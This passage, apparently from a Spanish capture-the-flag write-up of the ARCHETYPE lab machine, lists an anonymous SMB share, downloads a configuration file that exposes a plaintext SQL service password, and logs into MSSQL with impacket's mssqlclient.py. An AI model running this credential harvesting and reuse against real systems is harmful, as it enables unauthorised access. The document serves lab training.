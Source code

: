 Donde vemos un recurso que no requiere privilegios, *backups*, por lo que tratamos de acceder a él:

```shell
smbclient -N \\\\<ip>\\backups
```

Nos conectamos y descargamos el archivo que contiene:

```shell
smb: \> dir
  .                                   D        0  Mon Jan 20 13:20:57 2020
  ..                                  D        0  Mon Jan 20 13:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 13:23:02 2020
		
		5056511 blocks of size 4096. 2615627 blocks available

smb: \> get prod.dtsConfig 
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (2,7 KiloBytes/sec) (average 2,7 KiloBytes/sec)

smb: \> exit
```

Si una vez en nuestro equipo tratamos de listarlo:

```xml
cat prod.dtsConfig

<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

Vemos unas credenciales para el usuario `sql_svc`, con contraseña `M3g4c0rp123`, alojado en el host  `ARCHETYPE`. En este punto, deberíamos comprobar si las credenciales corresponden al servicio de base de datos que corría en el puerto 1433.


## Accediendo al servidor de base de datos

Para acceder al servidor mssql, utilizaremos un script que incluye [[impacket]], llamado `mssqlclient.py`. Y lanzamos el script con:

```shell
python3 mssqlclient.py ARCHETYPE/sql_svc@<ip> -windows-auth
```

Utilizamos el parámetro `-windows-auth` para que utilice el sistema de autenticación de windows. Nos pedirá la contraseña que encontramos antes y debería darnos acceso a un servicio de base de datos.
